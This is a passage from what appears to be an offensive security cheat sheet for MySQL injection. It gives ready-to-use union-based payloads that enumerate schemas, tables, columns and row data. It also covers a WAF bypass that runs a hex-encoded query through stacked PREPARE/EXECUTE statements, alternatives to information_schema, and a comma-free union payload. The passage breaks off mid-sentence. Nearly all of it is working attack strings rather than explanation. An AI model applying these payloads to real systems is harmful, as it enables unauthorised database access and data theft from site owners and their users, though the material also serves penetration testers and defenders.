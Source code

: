 ## MySQL Union Based

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```

## SSRF

**Learn here different options to** [**abuse a Mysql injection to obtain a SSRF**](mysql-ssrf.md)**.**

## WAF bypass tricks

### Executing queries through Prepared Statements

When stacked queries are allowed, it might be possible to bypass WAFs by assigning to a variable the hex representation of the query you want to execute (by using SET), and then use the PREPARE and EXECUTE MySQL statements to ultimately execute the query. Something like this:

```
0); SET @query = 0x53454c45435420534c454550283129; PREPARE stmt FROM @query; EXECUTE stmt; #
```

For more information please refer to [this blog post](https://karmainsecurity.com/impresscms-from-unauthenticated-sqli-to-rce).

### Information_schema alternatives

Remember that in "modern" versions of **MySQL** you can substitute _**information_schema.tables**_ for _**mysql.innodb_table_stats**_ or for _**sys.x$schema_flattened_keys**_ or for **sys.schema_table_statistics**

### MySQLinjection without COMMAS

Select 2 columns without using any comma ([https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma](https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma)):

```
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```

### Retrieving values without the column name

If at some point you know the name of the table but you don't know the name of the columns inside the table, you can try to find how may columns are there executing something like:
